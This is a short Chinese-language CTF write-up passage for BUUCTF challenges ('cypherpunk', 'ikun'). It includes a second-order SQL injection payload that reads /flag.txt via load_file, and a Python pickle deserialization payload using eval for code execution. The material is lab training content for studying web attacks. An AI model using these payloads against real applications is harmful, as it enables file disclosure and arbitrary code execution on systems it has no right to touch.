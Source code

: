 访问/proc/net/fib_trie得到的IP直接访问错误,

尝试最最后一位进行爆破

![image-20240515124703693](https://cdn.jsdelivr.net/gh/chenppxx/picture1/image-20240515124703693.png)

得到flag



# buuctf cypherpunk

可以使用为协议读取源码

```
$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
```

上述这段代码,详细解释一下:

当传入

```
address=',`address`=(select load_file('/flag.txt'))
```

可以符合原本代码的格式

可以注入

`$row = $fetch->fetch_assoc();`直接从数据库中获取了地址,没有被过滤,可以进行二次注入

注意:sql注入时,不一定在当前数据库,可能需要你查询其他数据库

但本题flag在/flag.txt下面,使用上面的payload读取



# buuctf ikun

```
import pickle
import urllib.parse
class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt').read()",))
a = pickle.dumps(payload(),protocol=0)  #python3的写法
print(urllib.parse.quote(a))

```

